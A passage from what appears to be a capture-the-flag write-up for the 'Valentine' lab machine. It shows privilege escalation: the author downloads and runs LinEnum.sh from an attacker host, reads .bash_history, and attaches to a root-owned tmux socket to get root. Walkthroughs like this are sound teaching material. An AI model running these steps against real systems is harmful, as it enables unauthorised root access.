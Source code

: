 ```
hype@Valentine:~/Downloads$ wget 10.10.14.69:8000/LinEnum.sh
--2021-01-30 12:03:56--  http://10.10.14.69:8000/LinEnum.sh
Connecting to 10.10.14.69:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: `LinEnum.sh'

100%[==============================================================================================================>] 46,631      --.-K/s   in 0.09s   

2021-01-30 12:03:56 (482 KB/s) - `LinEnum.sh' saved [46631/46631]

hype@Valentine:~/Downloads$ chmod 777 LinEnum.sh
hype@Valentine:~/Downloads$ ./LinEnum.sh
```

In the script I notice a couple interesting things, but this is the one that catches my eye the most:

```
[-] Location and contents (if accessible) of .bash_history file(s):
/home/hype/.bash_history

exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess
tmux a -t dev_sess
tmux --help
tmux -S /.devs/dev_sess
exit
```

So this user has previously entered .devs and run the tmux terminal with some parameters here. So I recreated what has been done here:

```
hype@Valentine:~/Downloads$ cd /
hype@Valentine:/$ cd .devs
hype@Valentine:/.devs$ ls -la
total 8
drwxr-xr-x  2 root hype 4096 Jan 30 09:10 .
drwxr-xr-x 26 root root 4096 Feb  6  2018 ..
srw-rw----  1 root hype    0 Jan 30 09:10 dev_sess
hype@Valentine:/.devs$
```

We can also assume that since the user tried a couple tmux commands, and even --help, that the first two did not work properly. And when we try tmux -S /.devs/dev_sess, we get root:
